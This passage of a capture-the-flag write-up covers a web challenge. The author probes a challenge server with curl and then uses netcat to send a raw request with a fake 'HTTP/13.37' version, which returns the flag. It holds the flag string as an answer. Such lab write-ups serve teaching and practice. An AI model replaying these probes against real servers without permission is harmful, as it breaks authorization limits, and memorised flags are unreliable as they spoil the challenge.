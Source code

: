 ### 2. Initial Server Probing

I tested the server with curl to observe its behavior with standard HTTP requests.

### Request to /flag:

```python
curl http://34.133.69.112:8080/flag
```

**Response**:

```python
Not here buddy
```

This differed from the expected "Could not open the /flag file." message, suggesting a possible server tweak or additional logic.

### Request to /goodshit/umcs_server:

```python
curl http://34.133.69.112:8080/goodshit/umcs_server
```

**Response**:

```python
Not here buddy
```

Both requests, using HTTP/1.1, yielded generic 404s, confirming that standard requests wouldn’t suffice.

### 3. Crafting a Custom Request

The HTTP/13.37 clue implied the server required this specific version. Since curl can’t handle arbitrary HTTP versions, I switched to netcat to manually craft the request:

```python
echo -e "GET /goodshit/umcs_server HTTP/13.37\r\nHost: 34.133.69.112\r\n\r\n" | nc 34.133.69.112 8080
```

- **Command Breakdown**:
    - echo -e: Interprets \r\n for proper HTTP line endings.
    - GET /goodshit/umcs_server HTTP/13.37: Specifies the method, path, and version.
    - Host: 34.133.69.112: Required HTTP header.
    - nc 34.133.69.112 8080: Sends the request to the server.

**Response**:

```python
HTTP/1.1 200 OK
Content-Type: text/plain
umcs{http_server_a058712ff1da79c9bbf211907c65a5cd}
```

### babysc (Pwn)
